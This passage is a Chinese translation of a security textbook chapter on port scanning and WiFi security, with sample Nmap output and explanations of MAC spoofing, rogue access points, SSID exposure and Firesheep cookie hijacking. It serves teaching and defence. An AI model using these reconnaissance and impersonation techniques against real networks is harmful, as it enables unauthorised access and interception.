正如本章前面所述，端口只是将数据路由到等待它的特定程序的一个数字标识。等待的程序称为守护进程，据说它监听特定端口；实际上，它向网络管理软件注册，以便接收发往该端口的数据。例如，按照惯例，端口 110 是与邮件局协议关联的端口号，80 专用于 HTTP（网页）流量，123 分配给网络时间协议用于时钟同步。随着时间的推移，服务数量超过了可用数字的范围，因此存在冲突、重用、非正式使用和重新分配。

让我们继续之前关于数据请求进入端口 110（邮局协议）的讨论。客户端通过 ASCII 文本命令中实现的定义协议发起连接 POP 服务器的请求。服务器响应，通常标识自身，有时还包括版本号（以便客户端和服务器在功能和预期上同步）。我们在图 6-11 中展示了该交换的示例。来自客户端的行标记为 `CL`，来自 POP 服务器的响应标记为 `SV`。任何人都可以通过使用 Telnet 终端仿真程序发起此类交换。

```
CL:    telnet incoming.server.net 110

SV:    +OK Messaging Multiplexor (Sun Java(tm) System Messaging Server
6.2-6.01 (built Apr  3 2006))
<4d3897ff.11ec04f8@vms108.mailsrvcs.net>

CL:    user v1

SV:    +OK password required for user v1@server.net

CL:    pass p1

SV:    -ERR [AUTH] Authentication failed

CL:    quit

SV:    +OK goodbye
```

**图 6-11** POP 服务器会话创建

像 Nmap 这样的扫描器会探测一系列端口，测试哪些服务会响应。图 6-12 显示了 Nmap 的示例输出。（站点名称和地址已更改。）请注意，整个扫描仅用了 34 秒。

```
Nmap 扫描报告

192.168.1.1 / somehost.com (online) ping 结果

address: 192.168.1.1 (ipv4)

hostnames: somehost.com (user)

The 83 ports scanned but not shown below are in state: closed

Port      State     Service Reason      Product  Version  Extra info
21   tcp  open      ftp     syn-ack     ProFTPD  1.3.1
22   tcp  filtered  ssh     no-response
25   tcp  filtered  smtp    no-response
80   tcp  open      http    syn-ack     Apache   2.2.3    (CentOS)
106  tcp  open      pop3pw  syn-ack     poppassd
110  tcp  open      pop3    syn-ack     Courier pop3d
111   tcp   filtered   rpcbind      no-response
113   tcp   filtered   auth         no-response
143   tcp   open       imap         syn-ack      Courier Imapd      rel'd 2004
443   tcp   open       http         syn-ack      Apache 2.2.3       (CentOS)
465   tcp   open       unknown      syn-ack
646   tcp   filtered   ldp          no-response
993   tcp   open       imap         syn-ack      Courier Imapd      rel'd 2004
995   tcp   open                    syn-ack
2049  tcp   filtered   nfs          no-response
3306  tcp   open       mysql        syn-ack      MySQL 5.0.45
8443  tcp   open       unknown      syn-ack
34 sec. scanned
1 host(s) scanned
1 host(s) online
0 host(s) offline
```

**图 6-12** Nmap 扫描器输出

端口扫描能告诉攻击者三件事：目标系统上哪些标准端口或服务正在运行并响应，目标系统安装了什么操作系统，以及存在什么应用程序及其版本。这些信息可从联网系统中轻松获取；可以安静地、匿名地、无需标识或认证地获得，几乎不会引起对扫描的关注。

操作系统名称或系统应用程序版本看似并不重要，但了解特定主机运行的是某个已知版本——该版本可能包含已知甚至未公开的缺陷——的服务，攻击者就可以设计攻击来精确利用该漏洞。因此，端口扫描可能是更严重攻击的第一步。

攻击者还能了解到的另一件事是连通性。**图 6-12** 涉及单个主机。在 **图 6-13** 中，我们将搜索范围扩大到了整个子网（同样，名称和地址已更改）。正如你所见，该网络由一个路由器、三台计算机和一个未识别设备组成。


```text
Starting Nmap 5.21 (http://nmap.org) at 2015-00-00 12:32
Eastern Daylight Time
Nmap scan report for router (192.168.1.1)
Host is up (0.00s latency).
MAC Address: 00:11:22:33:44:55 (Brand 1}
Nmap scan report for computer (192.168.1.39)
Host is up (0.78s latency).
MAC Address: 00:22:33:44:55:66 (Brand 2)
Nmap scan report computer (192.168.1.43)
Host is up (0.010s latency).
MAC Address: 00:11:33:55:77:99 (Brand 3)
Nmap scan report for unknown device 192.168.1.44
Host is up (0.010s latency).
MAC Address: 00:12:34:56:78:9A (Brand 4)
Nmap scan report for computer (192.168.1.47)
Host is up.
```

**图 6-13** 小型网络的 Nmap 扫描

**图 6-14** 的信息提供了另一个重要线索：因为所有设备的延迟时间（向设备发送数据包到设备响应之间的时间）相似，它们可能位于同一个网段。因此，你可以绘制网络的连通性图（如 **图 6-14** 所示）。


**图 6-14** 小型网络的连通性图

Nmap 有许多选项；外部人员可以对所有者和用户进行指纹识别，识别在非常用端口上运行的常见服务，绘制机器间的连通性（路由），或推断未知设备的真实类型。请注意，在所示的两个示例中，攻击者仅用几条命令就能了解到：

- 有多少主机
- 它们的 IP 地址是什么
- 它们的物理 (MAC) 地址是什么
- 每台设备的品牌是什么
- 每台设备运行什么操作系统及版本
- 哪些端口响应服务请求
- 哪些服务应用程序响应，以及它们运行的是什么程序和版本
- 响应花费了多长时间（这揭示了各种网络连接的速度，从而可能表明网络的设计）

对于懒惰的攻击者，Nmap 甚至有一个选项，可自动生成指定数量的随机 IP 地址，然后扫描这些地址。这一点对计算机安全尤为重要。如果攻击者想利用某个特定软件版本的已知漏洞，就不必针对许多运行不同版本甚至完全不同软件的系统反复发起攻击。相反，攻击者先运行 Nmap 扫描，随机选取比如 10,000 个地址，或选取指定范围内的所有地址，比如 `100.200.*.*`。当 Nmap 返回所有这些扫描的结果时，攻击者可以使用简单的文本编辑器，从大量输出中仅筛选出标识所需软件版本的那些行。

### 端口扫描的危害

你可能会问，知道机器和服务有什么危害；毕竟，端口开放的原因是为了交换数据。扫描器只是拾取机器自愿泄露的数据。

不妨设想一个窃贼正在踩点的社区里有两栋房子。她对第一栋房子一无所知。至于第二栋房子，她知道住着两个人，他们的卧室在楼上。这对夫妇养了一条狗，睡在地下室关着的门后。他们总是留着一扇后窗稍微开着，好让猫进出。而且其中一位住户最近扭伤了脚踝，行动缓慢且痛苦。显然，第二栋房子对窃贼更具吸引力，部分原因在于她可以策划利用该房子已知弱点的攻击。因此，不必要地暴露计算系统的特征可能是有害的。

网络和漏洞扫描器（Nmap 只是其中一个例子）有两个用途，一个好，一个坏。好的用途是网络管理员或系统所有者使用该工具探索他们的网络。该工具会报告哪些设备可能运行着过时且脆弱的软件版本（应升级），或哪些端口不必要地暴露（应关闭）。大型网络的管理员可能使用扫描器来记录和审查连接到网络的所有设备（因为新设备随时可能添加到网络中）。但当然，正如我们所展示的，网络扫描器的坏用途是让攻击者了解系统。（法律对于未经许可扫描计算机是否违法尚无定论。）鉴于好用途的重要性，良心的商业软件公司继续改进网络扫描器的用途和易用性，但不幸的是，这也支持了坏用途。

端口扫描很难归类。它们当然是网络攻击者广泛使用的工具，作为更严重行动的第一步。它们是漏洞吗？不是；漏洞在于网络管理员允许其组件向任何询问的程序导出的信息量和种类。它们是威胁吗？并不完全是，因为它们报告的开放端口无论是否进行端口扫描都是存在的。应该以某种方式禁止它们吗？采取该行动可能为时已晚，特别是因为任何具备基本网络协议知识的合格程序员都能轻松编写一个基础扫描器。因此，充其量我们只能说端口扫描技术客观存在，网络管理员应自行使用端口扫描器来确定外部人员能了解其网络的程度。端口扫描器本身不会导致拒绝服务或任何其他网络故障，但它们确实助长并往往诱发此类故障。

***

**网络和漏洞扫描器可用于管理和维护（积极用途），也可用于攻击规划（消极用途）。**

***

### 漏洞总结

正如刚才给出的示例所示，针对广域网基础设施的大量攻击可能导致拦截、篡改和拒绝服务。由于这些攻击针对的是大型网络，因此很少用于攻击某个特定用户，因为在数百万并发通信的海洋中，要隔离出某个特定用户是很困难的。（正如我们将在本章后面所述，拒绝服务攻击可以针对某个特定受害者，而且经常如此。）

在下一节中，我们将探讨如何在无线局域网中使用类似的伎俩，因为那里只有少数用户，这使得将攻击聚焦于单个用户成为可能。请注意，这些网络仍可连接到广域网（如互联网）。因此，某个用户的全部活动仍面临被拦截和篡改的风险；入侵点仅仅是紧邻用户而已。

## 6.3 无线网络安全

在本节中，我们将介绍无线网络技术。然后描述保护这些网络的两种方法。第一种方法被公认为是安全方面的失败。研究这一失败的尝试有助于深入理解为何在具有非安全约束的现有技术中集成安全是困难的。换个说法，这个故事是安全工程师恳求从一开始就参与设计的典型案例：在设计定型后再添加安全措施很少能成功。尽管如此，从这个故事中你可以看到本应或本可以预见并解决的问题。

第二种方法好一些，但它也有安全局限性。在这个例子中，你可以看到即使有避免安全陷阱的现成案例，要设计出一个成功的方法，仍需仔细考虑可能的故障点。

### WiFi 背景

无线流量使用无线电频谱的一部分，因此，信号可被范围内任何拥有有效天线的人接收。由于无线计算如此暴露，它需要采取措施来保护计算机（称为客户端）与无线基站或接入点之间的通信。请记住，所有这些通信都在预定义的无线电频率上进行，因此你可以预期窃听攻击者会尝试拦截和冒充。需要保护的环节包括：发现接入点、将远程计算机向接入点进行认证（反之亦然），以及保护通信流。

> **无线通信永远不会像有线通信那样安全，因为暴露的信号更脆弱。**

无线通信还有其他漏洞，详见侧边栏 6-8。

> **侧边栏 6-8 无线拦截**
>
> 《新西兰先驱报》[GRI02] 报道称，一家大型电信公司因其无线网络软件存在安全缺陷，被迫关闭了其移动电子邮件服务。该缺陷影响了该公司网络上使用支持 WAP（无线应用协议）手机发送电子邮件的用户。
>
> 该漏洞发生在用户结束电子邮件会话时。事实上，软件在 60 秒后才结束 WAP 会话。如果第二个网络客户在这 60 秒内发起电子邮件会话，并连接到与第一个客户相同的端口，那么第二个客户就能查看第一个客户的消息。
>
> 该公司将责任归咎于移动门户提供的第三方软件。尽管如此，这家电信公司仍深感尴尬，特别是因为它认为“无线网络的安全问题”是“阻碍[无线]技术发展的主要因素”[GRI02]。
>
> 任何拥有无线网卡的人都可以搜索可用网络。安全顾问 Chris O’Ferrell 能够从参议院办公楼外、最高法院外和五角大楼外连接到华盛顿特区的无线网络 [NOG02]；其他人则在机场、飞机上和咖啡店连接网络。Network Instruments 的 Observer 产品和 IBM 的无线安全分析器都能定位网络上的开放无线连接，以便安全管理员知道网络可供无线接入。
>
> 还有一些无线局域网用户拒绝关闭或保护其服务。零售商 BestBuy 曾因一位顾客购买无线产品而尴尬；这位顾客在停车场将其安装在笔记本电脑上。令他惊讶的是，他发现可以连接到商店的无线网络。BestBuy 随后让其所有无线收银机下线。但 CVS 药店连锁宣布计划继续在其所有 4100 家门店使用无线网络，辩称“我们严格将无线技术用于内部物品管理。如果我们将来要通过店内无线局域网传输[顾客]信息，我们会对数据进行加密”[BRE02a]。在太多情况下，当有人多年后更改应用时，没人记得最初保护数据的意图。

#### 无线通信

要理解安全如何应用于无线通信以及在哪里可能失效，你需要了解无线数据通信的总体结构。无线（有线也是）数据通信是通过一组有序的交换来实现的，称为**协议**。我们在日常生活中使用协议来完成简单的交换。例如，一个熟悉的协议涉及拨打和接听电话。如果你给朋友打电话，你会执行这些步骤的一个版本：

1.  你按按钮激活手机。
2.  你按按钮选择并传输朋友的号码（这个过程过去称为拨号）。
3.  你的朋友听到铃声并按按钮接听你的电话。
4.  你的朋友说“喂”，或其他招呼语。
5.  你回应喂。
6.  你们开始交谈。

如果你在朋友听到并接听电话之前就开始说话，或者朋友接听了电话但从不说话，这个过程就行不通。为了让打电话这个简单过程生效，这六个步骤必须按顺序并按这种大致形式执行。我们都在不假思索地学习和使用这个协议，但这种模式帮助我们轻松高效地沟通。

类似的协议管理着整个 WiFi 通信过程。你可以使用在一个国家制造、软件在另一个国家编写的计算机，连接到世界各地的无线接入点，因为这些协议是国际商定的标准，称为 **802.11 协议套件**。我们现在介绍 802.11 协议中对安全至关重要的重要要点。

#### 802.11 协议套件

802.11 协议都描述了设备如何在分配给 WiFi 的 2.4 GHz 无线电信号频段（基本上是 2.4 GHz–2.5 GHz）中通信。该频段被划分为 14 个信道或频段内的子范围；这些信道重叠以避免与附近设备的干扰。WiFi 设备设计为仅使用少数几个信道，通常是信道 1、6 和 11。无线信号最远可传播 100 米（300 英尺），尽管信号质量会随距离衰减，墙壁和树木等中间物体也会干扰通信。802.11n 协议改进了传输范围，称为中继器的设备可以延长现有无线发射器的范围。

如图 6-15 所示，无线网络由一个 `access point`（接入点）或路由器组成，它负责接收、转发和传输数据，以及一个或多个设备（有时称为 `stations` 站点），如计算机或打印机，它们与接入点进行通信。接入点是无线子网的中心。每个设备必须有一个 `network interface card`（网络接口卡，简称 `NIC`），用于与接入点进行无线电信号通信。NIC 由一个唯一的 48 位或 64 位硬件地址标识，称为 `medium access code`（介质访问代码，简称 `MAC`）。（MAC 地址*应该*是固定且唯一的，但正如我们在本章后面所述，MAC 地址是可以更改的。）关于滥用 MAC 地址进行认证的观点，请参见侧边栏 6-9。


**图 6-15** 本地站点与远程网络通信

***

**NIC 通过一个所谓唯一的 MAC 地址来标识自身（以及其连接的计算机）。**

***

#### WiFi 接入范围

距离是 WiFi 的一个重要考量因素，但很难精确说明。无线信号会因中间物体（如墙壁、机器和树木）以及距离的干扰而衰减；接收器不会建立连接，或者可能会丢弃信号差（即微弱或丢失大量数据）的连接。室外信号干扰物体较少，通常比室内信号传播距离更远。

***

##### 侧边栏 6-9 使用 MAC 地址进行认证 [坏主意]

在我们希望是一个恶搞的帖子中，据称来自哈佛大学 IT 服务部门的发帖表明哈佛将开始使用 MAC 地址进行认证。（[`video2.harvard.edu/wireless/Wireless_Registration_Procedure_072910.pdf`](http://video2.harvard.edu/wireless/Wireless_Registration_Procedure_072910.pdf)）。该公告称，在向哈佛网络服务注册后，学生的机器将通过 MAC 地址被识别，学生将不再需要输入哈佛 ID 和 PIN 即可访问哈佛无线网络。

该帖子位于一个不显眼的哈佛网络服务器上，而非主 IT 服务页面，且哈佛网站其他地方似乎均未提及此事。

正如我们刚才报告的，一名中等水平的网络程序员就可以更改 MAC 地址，而一种称为嗅探器的程序会报告参与无线网络的设备的 MAC 地址。因此，任何想使用哈佛 WiFi 网络的人都可以通过从正在进行的会话中嗅探 MAC 地址，并将 NIC 卡设置为呈现该地址，从而轻松获得认证访问权限。

也许这个网站是哈佛附近的对手麻省理工学院 (M.I.T.) 的一个玩笑？

***

另一方面，天线可以调谐至无线通信的频率。直接对准信号源也可以改善远距离接收效果。在表 6-2 中，我们估算了一些不同 WiFi 协议的合理范围。使用 802.11n 的实验结果表明，在理想条件下可在约 5000 英尺/1600 米的距离上接收信号。


**表 6-2** 典型 802.11 协议接入范围

现在大多数支持 WiFi 的计算机都使用 802.11n 协议进行通信（为兼容性也支持所有早期协议），因此范围轻松覆盖从一栋房子到街道，甚至在传统社区内可达几栋房子之外。正如侧边栏 6-10 所述，谷歌开展了一个雄心勃勃的项目，旨在绘制全球 WiFi 连接图谱。此次测绘的目的并不明显，但欧盟认定谷歌在收集这些数据时已越界。

***

##### 侧边栏 6-10 谷歌的街景项目

谷歌的街景项目始于 2007 年，涉及装有摄像头的汽车行驶在各城市街道上以拍摄街景照片。这些图像与 GPS 坐标相结合，将每张图像固定在其物理位置。

根据电子隐私信息中心 [EPI10] 的说法，在拍摄这些街道沿线场景时，谷歌的汽车还运行无线网络扫描器和接收器，运行程序选择遇到的未加密网络流量，并将该内容连同接收信号时的 GPS 坐标一起写入计算机磁盘。部分数据包括电子邮件账户密码和电子邮件消息。谷歌还拦截并保存了从街道上检测到的无线网络的网络设备标识符（MAC 地址）和无线网络站点标识符（SSID）。无线地址与物理位置相结合可用于投放定向广告。谷歌委托的一份独立程序审计报告 [STR10] 记录了对收集数据的语法分析，以便存储单个字段。

数据收集从 2007 年持续到 2010 年 5 月，当时谷歌宣布其错误地收集了 600 MB 无线内容数据。尽管审计确定捕获的数据项已被解析以分离加密和不同种类的未加密数据，但谷歌辩称写入和保留数据是一个错误。

2013 年，谷歌同意就美国 37 个州提起的诉讼支付 700 万美元和解金（此外，谷歌还因被指控故意阻碍对隐私侵犯指控的调查，向美国政府支付了 25,000 美元罚款。2011 年，其支付了 100,000 欧元（约合 150,000 美元）罚款。2013 年，德国罚款谷歌 145,000 欧元（约合 200,000 美元），谷歌因该项目的隐私侵犯向意大利支付了 100 万欧元（约合 140 万美元）。（谷歌 2013 年总收入为 330 亿美元，因此这些罚款不足其当年收入的 0.1%。）

有人可能会辩称，谷歌仅仅是监听公共无线电波，任何拥有合适接收器的人都能接收到这些电波。这一论点的延伸是，这些电波受到的保护并不比声波或视觉图像更多：你在公共场合交谈时，无法指望对话是私密的，而且你知道业余摄影师在拍摄地标时可能会捕捉到你的影像。反方观点认为，由于你采用的各种安全措施，你意图让自己的计算机访问保持私密。这起事件的法律层面可能还将争论一段时间。

***

#### WiFi 帧

每个 WiFi 数据单元称为一个 `frame`（帧）。每个帧包含三个字段：`MAC header`（MAC 头部）、`payload`（载荷）和 `FCS`（`frame check sequence`，帧检验序列）。MAC 头部包含固定大小的字段，包括：

*   帧类型：控制、管理或数据
*   ToDS、FromDS：帧的方向：发往接入点或来自接入点
*   分片和排序控制位
*   WEP（有线等效隐私）或加密位：加密，稍后描述
*   最多四个 MAC 地址（物理设备标识符）：发送方和接收方地址，加上两个用于流量过滤点的可选地址

载荷或帧主体是正在传输的实际数据，0–2304 字节，其结构取决于处理数据的应用程序。帧检验序列是一种完整性检查（实际上是循环冗余检查，我们在第 2 章中描述过），用于确保整个帧的准确传输。WiFi 帧的格式如图 6-16 所示。


**图 6-16** WiFi 帧格式

#### 管理帧

在三种帧类型中，管理帧目前最为重要，因为它们控制一系列数据流的建立和处理。最重要的管理帧类型有：

##### 信标

每个接入点定期发送一个**信标帧**以宣告其存在并传递信息，例如时间戳、标识符以及关于接入点的其他参数。范围内的任何网卡都会接收到此信标。例如，当你在咖啡店连接 WiFi 服务时，你的计算机会接收来自该店的信标信号，从而能够发起通信。

> **信标信号宣告网络正在接受连接。**

##### 认证

网卡通过发送包含其身份的**认证帧**，发起与接入点交互的请求。接入点可能会请求额外的认证数据，最后接受或拒绝该请求。任一方均可发送**去认证帧**以终止已建立的交互。因此，例如，你的计算机会响应咖啡店的信标信号，在认证帧中返回其身份（MAC 地址）。

> **网卡通过发送认证帧来请求连接。**

##### 关联请求与响应

认证之后，网卡请求接入点建立会话，这意味着网卡和接入点交换关于其能力的信息，并就其交互的参数达成一致。建立关联的一个重要部分是就加密达成一致。例如，一个接入点可能能够处理三种不同的加密算法，称它们为 A、B 和 C，而请求的网卡只能处理两种算法，称它们为 B 和 D。在关联过程中，这两者会确定它们共享算法 B，从而同意使用该加密形式进行通信。**去关联请求**是终止会话的请求。

##### SSID


WiFi 通信中的另一个重要数据值是接入点的标识，以便无线设备在接收到多个信号时能够区分不同的接入点。**服务集标识符**，或 **SSID**，是接入点的标识；它是由接入点管理员选择的最多 32 个字符的字符串。SSID 是接入点在其信标中广播的标识符，持续的链接将已关联网卡的通信绑定到给定的接入点。例如，你计算机的无线天线可能会捕获三个信标：`CoffeeShop`、`Apt203` 和 `Quicksand`。

> **SSID 是用于标识无线接入点的字符串。**

显然，在给定区域内 SSID 需要是唯一的，以便将一个无线网络与另一个区分开来。对于早期版本的无线接入点，出厂安装的默认值，如“wireless”、“tsunami”或“Linksys”（一个品牌名称），并不唯一；现在大多数出厂默认值都是该设备唯一的序列号。

有了关于无线通信如何发生的背景知识，我们可以开始探讨一些漏洞。

## 无线网络中的漏洞

无线网络面临着机密性、完整性和可用性方面的威胁，就像其他计算机应用和技术一样。攻击者可以加入目标网络并参与数据交换，也可以仅作为旁观者观察流量。

### 机密性

当然，如果数据信号在公开环境中传输，非预期的接收者可能会获取数据。数据值本身最为敏感，但 A 与接入点 B 通信的事实、通信的持续时间或通信量也可能是敏感的。流量的性质，无论是网页访问、点对点网络、电子邮件还是网络管理，也可能是机密的。最后，两个单元通信的模式——是否加密，如果加密，由什么算法加密——也可能是敏感的。因此，通信的许多方面的机密性都可能是敏感的。

### 完整性

关于完整性，我们必须考虑恶意和非恶意的问题来源。许多非恶意的危害来源包括来自其他设备的干扰、因距离或阻挡物导致的信号丢失或损坏、天气造成的接收问题，以及实现协议通信的硬件和软件中的零星通信故障。

更有趣的一类完整性违规涉及直接的恶意攻击，旨在更改通信内容。对于未加密的通信，攻击者可能会尝试伪造看似来自主机或客户端的数据。因为客户端和服务器都能接收对方的信号，攻击者无法轻易地从客户端接收某物、修改它，并在客户端的原始信号到达服务器之前发送修改后的版本。然而，攻击者可以尝试通过强制手段接管通信流。接收到两个信号的 WiFi 无线电接收器倾向于选择较强的那个。因此，如果一个流氓接入点拦截来自客户端的信号，并发回一个强信号，伪装成来自服务器的接入点，该流氓设备可能就能劫持通信流。

### 可用性

可用性涉及三个潜在问题。第一个是最明显的，当无线通信的某个组件因硬件故障、断电或其他灾难而停止工作时发生。第二个可用性问题是部分而非全部访问丢失，通常表现为服务缓慢或降级。服务可能因干扰而变慢，例如，风吹树叶干扰帧传输，导致接收端识别出部分数据丢失，必须请求并等待重传。如果服务需求超过接收端的容量，服务也会变慢，导致部分服务请求被丢弃，或接收端缓慢处理所有请求。

无线通信还引入了第三个问题：**流氓网络连接**的可能性。一些 WiFi 接入点被称为公共热点，有意向任何想要连接的人开放。但其他私有所有者不希望与范围内的任何人共享其接入。尽管共享服务可能不被察觉，但这仍然是不恰当的。想要免费上网的用户通常只需找到一个提供 `DHCP` 服务的无线局域网即可获得。免费不一定意味着安全，正如侧边栏 6-11 所述。在这种情况下，虽然服务可用，但该服务的安全性可能有限。正如谚语所言，有时一分钱一分货。

> **侧边栏 6-11：网络约会服务？**
>
> 在范围内搜索开放的无线网络被称为**战争驾驶**。要寻找开放网络，你只需一台配备无线网络接收器的计算机。类似于观鸟活动，曾举办过四届世界范围战争驾驶活动（见 [`www.worldwidewardrive.org/`](http://www.worldwidewardrive.org/)），2002 年两届，2003 年和 2004 年各一届。目标是在一周内识别尽可能多的不同开放无线接入点：第一次搜索发现了 9,374 个；最后一次增长到 228,537 个。这些计数不可比较，因为随着消息传播，更多的人参与到了站点搜索中。在四次活动中，大约三分之二的发现站点不支持加密通信。此外，每次活动中大约 30% 的接入点使用默认 SSID（访问接入点的标识符）。通常（在 2002-2004 年），默认 SSID 类似于“wireless”。一个具有默认 SSID 且无加密的无线基站，相当于一个写着“我在这里，请使用我的无线网络”的盒子。

### 无线网络安全

一位顾问在美国帮助朋友设置家庭网络时，随身携带了一台支持无线功能的笔记本电脑。当他扫描以查找朋友的（已加密）接入点时，发现了另外五个信号足够强的接入点；其中三个未加密，且这三个中有两个的 SSID 显而易见，很容易猜出属于哪位邻居。

网络可用并不意味着它安全。流氓接入点是拦截敏感信息的另一种手段。你只需在咖啡馆或大型办公楼附近广播一个开放的接入点，允许人们连接，然后使用网络嗅探器秘密复制流量。大多数商业网站在获取敏感信息时会采用加密（例如本章后面将介绍的 `SSL` 算法），因此用户的财务或个人身份信息不应泄露。但许多其他类型的数据，如密码或电子邮件，却任人获取。

战争驾驶的吸引力因几个原因而减弱。首先，咖啡馆、书店、酒店、图书馆等场所免费公共 WiFi 热点的增加，降低了寻找 WiFi 信号的动力。其次，连接到不安全接入点的风险很高：一些不安全的 WiFi 连接是故意设置的“蜜罐”，用来引诱毫无戒心的客户连接，以便从无线连接中拦截敏感数据。最后，由于许多人拥有联网手机，他们会用手机进行短暂访问，而不是使用带 WiFi 的电脑。因此，定位和绘制无线接入点地图的战争驾驶活动已基本停止。

---

## 未经授权的 WiFi 访问

未经授权的设备可能会尝试与接入点建立关联。回顾 WiFi 协议，访问基本上涉及三个步骤：

1.  接入点通过发送信标来广播其可用性，这是邀请设备与其连接的信号。
2.  设备的网卡（`NIC`）发送认证请求，接入点接受该请求。
3.  设备的网卡请求建立关联，接入点协商并接受。

这些点中的每一个都存在威胁。在第 1 步中，任何人都可以接收并回复广播信标。在第 2 步中，认证并不严格；在基本 WiFi 模式下，接入点接受任何设备，无需认证。在第 3 步中，任何接入点都可以接受与任何设备的关联。我们可以在这三个步骤中的任意一个来防御这些未经授权的访问攻击。

## WiFi 协议弱点

无线接入协议存在内置弱点，可能损害安全性。显然，由于缺乏物理保护，无线通信比有线通信更容易暴露。无论出于何种原因，国际无线通信协议的最初设计者——`802.11` 套件——创造了使无线通信变得脆弱的情况，具体如下所述。

### 拾取信标

客户端和接入点通过认证和关联握手来定位彼此。本质上，客户端说：“我正在寻找连接到接入点 S”，而接入点说：“我是接入点 S；我接受你的连接请求。”这两个步骤的顺序很重要。在所谓的**开放模式**中，接入点在其信标中持续广播其吸引力，表明它已开放以进行建立连接的下一步。**关闭模式**或**隐身模式**，也称为 **SSID 隐藏**，颠倒了步骤顺序：客户端必须首先发送信号，寻找具有特定 SSID 的接入点，然后接入点才针对该查询响应连接邀请。这两种操作模式如图 6-17 所示。


**图 6-17** 开放模式与关闭模式下的连接

---

> **在开放模式下，接入点持续广播其 SSID；在关闭模式下，客户端持续广播请求，以从给定的 MAC 地址连接到给定的 SSID。**

---

在关闭模式下运行似乎是防止未经授权访问的成功方法：如果你不知道 SSID，就无法请求连接。然而，关闭模式会使*客户端*暴露。在开放模式下，客户端保持静默，监控信标，直到找到想要连接的信标；因此，客户端不会持续可见。而在关闭模式下，客户端实际上变成了一个信标，发送一连串消息，实质上在说：“我是 MAC 地址 mmm，正在寻找 SSID sss。你是 sss 吗？”流氓主机可以从这些消息中得知预期值，从而冒充客户端希望连接的接入点。

### 所有帧中的 SSID

在关闭模式下广播期望的 SSID 会暴露目标接入点的身份。更糟糕的是，在关闭和开放模式下，即使在初始握手之后，所有后续的管理帧和数据帧都包含这个相同的 SSID，因此嗅探任意一帧都会泄露 SSID。因此，任何嗅探到 SSID 的人都可以保存该 SSID（在实践中很少更改）以备后用。窥探者可以合理地推测客户端将再次尝试连接同一个接入点。因此，流氓拥有了未来模仿客户端或接入点所需的信息。

更好的协议设计应该是让接入点和关联设备建立一个共享数据值，仅在本次关联期间使用。这样，拦截初始认证请求会泄露 SSID，但拦截任何后续帧则不会。

### 无线网络中的认证

接入点可以管理将接受连接的设备的 MAC 地址列表。因此，第 2 步中的认证可以通过仅接受正面列表上的设备来完成。

### 可变的 MAC 地址

操作系统并不总是实际获取网卡的硬件 MAC 地址，而是查阅内部数据，因此更改 MAC 地址只需更改网卡地址表。在互联网上很容易找到相关说明。

更改网卡的 MAC 地址不仅破坏了接入点基于 MAC 的认证，还可能导致一种称为 **MAC 欺骗** 的更大规模攻击，其中一台设备冒充另一台设备，从而接管另一台设备的通信会话。

---

> **操作系统可以发送任意地址，就如同它是网卡的 MAC 地址一样。**

---

### 窃取关联

不幸的是，如果流氓进程拦截了 SSID 并欺骗了 MAC 地址，则两个最好的访问控制点都已失守。从另一个角度来看，你可能会假设成功通过 SSID 和认证测试的设备现在将与已识别的接入点关联。又错了！

即使帧都包含预期接收方接入点的 SSID，也没有任何东西能阻止任何接入点接受并回复任何帧。事实上，某些接入点硬件和固件已知存在缺陷，会接受其能接收到的任何关联 [AND04a]。这些被称为**混杂接入点**。有关易受攻击关联的示例，请参阅侧边栏 6-12。下次当你考虑在酒吧或机场连接免费 WiFi 服务热点时，请想想它们。

### 首选关联

常见的 WiFi 场景包括：居民连接家庭网络、学生连接校园网络、商务人士连接企业网络，以及顾客连接咖啡店或书店网络。典型用户可能会频繁连接少数几个网络，偶尔在出差时连接一次酒店或机场网络，或在一日游时连接博物馆网络。为简化连接，无线接口软件会构建一个收藏连接点列表（家庭、学校、办公室），并尝试自动连接它们。通常不会产生混淆，因为这些网络将拥有不同的名称（实际上是 SSID）：你的计算机将自动连接到 `WestHallDorm` 网络。

---

#### 侧边栏 6-12 将羊群与狐狸隔离

`Firefox` 是一款流行的浏览器，部分原因在于用户编写并贡献了插件，据最新统计数量惊人地达到二十亿，功能涵盖从管理日程、显示天气预报到下载视频和跨语言翻译文本等广泛领域。

最近的一个贡献 `Firesheep`，只需点击鼠标即可让用户加入另一用户已建立的 WiFi 连接。要使用 `Firesheep`，你只需加入一个开放的公共网络，例如你常去咖啡店的免费 WiFi 网络。连接后，`Firesheep` 会静默扫描网络上所有其余流量，筛选出显示与某些服务（如基于 Web 的电子邮件或社交网络站点）已建立关联的消息。正如我们在第 4 章所述，许多此类站点通过使用 Cookie 来管理其活动关联，这些 Cookie 从站点发送到用户浏览器，再发回站点。问题在于，这些 Cookie 通常未加密传输，完全处于明文状态，这意味着任何拦截并转发该 Cookie 的人都能加入原用户的会话。

`Firesheep` 使这一过程用户友好化。在扫描网络时，它会识别出热门社交站点（例如 `Facebook`），获取用户名甚至照片并显示在屏幕上。点击一张照片，你就以该用户身份登录了。对策是加密，但这些站点很少应用加密（尽管大多数金融机构会加密整个会话，因此你的银行交易可能不会被 `Firesheep` 暴露）。扩展作者 Eric Butler [BUT10] 表示：

> 网站有责任保护依赖其服务的人们。[这些站点] 忽视这一责任已太久，是时候让每个人都要求更安全的 Web 了。我希望 `Firesheep` 能帮助用户获胜。

确实，Butler 于 2010 年 10 月在圣地亚哥的 ToorCon 安全会议上发布 `Firesheep` 并演示后三周，微软宣布将为其基于 Web 的 Hotmail 电子邮件程序添加全会话加密（`SSL`，我们将在本章后面解释）。在多年的敦促下，流行的基于 Web 的电子邮件和社交网络站点现在都使用全会话加密。尽管如此，新的、无防护的站点每天都在上线。

---

然而，请考虑免费 WiFi 接入。咖啡店、书店、机场和市政机构提供这项服务，一些网络管理员希望通过将服务命名为 `FreeWiFi` 来方便顾客。如果你指示软件（或者在某些情况下，如果你不指示软件*不*这样做），它会将 `FreeWiFi` 保存为一个接入点，以便将来每当看到该 SSID 时自动连接。不幸的是，SSID 的名称不绑定任何物理特征：你的计算机无法区分你咖啡店的 `FreeWiFi` 接入点，还是陌生城市中旨在引诱不知情访客的流氓接入点。你的计算机将继续搜索 SSID 为 `FreeWiFi` 的接入点，并连接到它找到的任何此类接入点。尽管此处的主要弱点在于维护首选接入点列表以供自动连接的软件，但协议也有过错，因为它未确保唯一的连接点标识。

